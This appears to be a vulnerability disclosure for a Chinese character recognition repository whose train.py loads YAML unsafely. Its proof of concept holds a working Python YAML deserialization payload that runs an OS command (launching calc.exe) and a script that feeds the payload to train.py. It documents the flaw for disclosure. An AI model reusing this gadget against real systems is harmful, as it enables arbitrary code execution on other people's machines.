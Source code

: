 ## ✍️ Description
A Chinese characters recognition repository based on convolutional recurrent networks.
* **Vulnerability description**
Vulnerable to YAML deserialization attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
* create and run exploit.sh and exploit.yml as shown below
* vulnerable part of code
```
https://github.com/Sierkinhane/CRNN_Chinese_Characters_Rec/blob/stable/train.py#L26
```
* exploit.yml
```YAML
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
```
* exploit.sh
```bash
#!/bin/bash
git clone https://github.com/Sierkinhane/CRNN_Chinese_Characters_Rec.git
cd CRNN_Chinese_Characters_Rec
python3 train.py --cfg path_to_exploit.yml
```
